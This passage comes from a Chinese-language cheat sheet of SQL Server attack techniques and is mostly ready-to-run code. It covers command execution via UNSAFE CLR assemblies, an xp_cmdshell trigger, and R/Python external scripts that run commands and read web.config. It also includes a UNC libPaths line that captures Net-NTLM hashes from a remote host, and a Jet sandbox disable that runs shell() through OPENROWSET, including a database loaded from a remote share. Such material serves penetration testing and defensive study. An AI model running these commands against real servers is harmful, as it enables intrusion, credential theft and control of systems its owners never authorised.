  WITH PERMISSION_SET = UNSAFE;
GO

-- 创建CLR函数
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR (MAX)
AS EXTERNAL NAME [mssql_CLR].[StoredProcedures].[ExecCommand]
go

-- 利用CLR执行系统命令
exec dbo.ExecCommand "whoami /all";


------------------------------------------------------------------------------------------------------------------------------


-- 格式简化
-- 导入CLR插件
CREATE ASSEMBLY [clrdata]
AUTHORIZATION [dbo]
FROM 0x16进制的dll
WITH PERMISSION_SET = UNSAFE;

-- 创建CLR函数
CREATE PROCEDURE [dbo].[testclrexec]
@method NVARCHAR (MAX) , @arguments NVARCHAR (MAX)
AS EXTERNAL NAME [clrdata].[StoredProcedures].[testclrexec]

-- 利用CLR执行系统命令
exec testclrexec 'cmdexec',N'whoami'
```

# 触发器

触发器是一种特殊类型的存储过程，它不同于存储过程。触发器主要是通过事件进行触发被自动调用执行的。而存储过程可以通过存储过程的名称被调用。

SqlServer 包括三种常规类型的触发器：DML 触发器、DDL 触发器和登录触发器

**登录触发器：**

登录触发器将为响应 LOGIN 事件而激发存储过程。与 SQL Server  实例建立用户会话时将引发此事件。登录触发器将在登录的身份验证阶段完成之后且用户会话实际建立之前激发。因此，来自触发器内部且通常将到达用户的所有消息(例如错误消息和来自 PRINT 语句的消息)会传送到 SQL Server 错误日志。如果身份验证失败，将不激发登录触发器。

```mssql
-- 设置一个触发器 ffffffff0x,当 user 表更新时触发命令 (user 表 必须存在，且 容易 卡死 因为这个calc在运行 查询就不会停止)
set ANSI_NULLS on
go
set QUOTED_IDENTIFIER on
go
create trigger [ffffffff0x]
on [user]
AFTER UPDATE as
begin
    execute master..xp_cmdshell 'cmd.exe /c calc.exe'
end
go

-- user 表 update 更新时，自动触发
UPDATE user SET id = '22' WHERE nickname = 'f0x'
```

# SQL Server R 和 Python 的利用

**描述**

在 SQL Server 2017 及更高版本中，R 与 Python 一起随附在机器学习服务中。该服务允许通过 SQL Server 中 sp_execute_external_script 执行 Python 和 R 脚本

利用条件：
 - Machine Learning Services 必须要在 Python 安装过程中选择

必须启用外部脚本
 - EXEC sp_configure 'external scripts enabled', 1
 - RECONFIGURE WITH OVERRIDE
 - 重新启动数据库服务器
 - 用户拥有执行任何外部脚本权限

```mssql
-- R脚本利用
-- 利用 R 执行命令
sp_configure 'external scripts enabled'
GO
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

-- 利用 R 抓取 Net-NTLM 哈希
@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'


-- Python脚本利用
-- 查看版本
exec sp_execute_external_script
@language =N'Python',
@script=N'import sys
OutputDataSet = pandas.DataFrame([sys.version])'
WITH RESULT SETS ((python_version nvarchar(max)))

-- 利用 Python 执行命令
exec sp_execute_external_script
@language =N'Python',
@script=N'import subprocess
p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE)
OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'

-- 利用 Python 读文件
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```

# AD Hoc 分布式查询 & Microsoft OLE DB Provider for Microsoft Jet (沙盒提权)

AD Hoc 分布式查询允许从多个异构数据源（例如 SQL Server  的多个实例）访问数据。这些数据源可以存储在相同或不同的计算机上。启用临时访问后，登录到该实例的任何用户都可以使用 OLE DB 提供程序通过  OPENROWSET 或 OPENDATASOURCE 函数执行引用网络上任何数据源的 SQL 语句。

攻击者滥用 Ad Hoc 分布式查询和 Microsoft OLE DB Provider for Microsoft Jet 来创建和执行旨在从远程服务器下载恶意可执行文件的脚本。

利用条件
 - 拥有 DBA 权限
 - sqlserver 服务权限为 system
 - 服务器拥有 jet.oledb.4.0 驱动

```mssql
-- 修改注册表，关闭沙盒模式
EXEC master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0

-- 开启 Ad Hoc Distributed Queries
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
GO
EXEC sp_configure 'ad hoc distributed queries', 1
RECONFIGURE
GO
-- Until SQL Server 2012

EXEC sp_MSset_oledb_prop N'Microsoft.ACE.OLEDB.12.0', N'AllowInProcess', 1
EXEC master.dbo.sp_MSset_oledb_prop N'Microsoft.Jet.OLEDB.4.0', N'AllowInProcess', 1

-- SQL Server 2014 or later
EXEC sp_MSset_oledb_prop N'Microsoft.ACE.OLEDB.12.0', N'DynamicParameters', 1
EXEC master.dbo.sp_MSset_oledb_prop N'Microsoft.Jet.OLEDB.4.0', N'DynamicParameters', 1

-- Windows 2003 系统 c:\windows\system32\ias\ 目录下默认自带了 2 个 Access 数据库文件 ias.mdb/dnary.mdb, 所以直接调用即可.
-- Windows 2008 R2 默认无 Access 数据库文件, 需要自己上传, 或者用 UNC 路径加载文件方能执行命令.
-- SQL Server2008 默认未注册 microsoft.jet.oledb.4.0 接口, 所以无法利用沙盒模式执行系统命令.

Select * From OpenRowSet('microsoft.jet.oledb.4.0',';Database=c:\windows\system32\ias\ias.mdb',
'select shell("whoami")');

select * from openrowset('microsoft.jet.oledb.4.0',';database=\\192.168.1.8\file\ias.mdb','select shell("c:\windows\system32\cmd.exe /c net user >c:\test.txt ")');
```

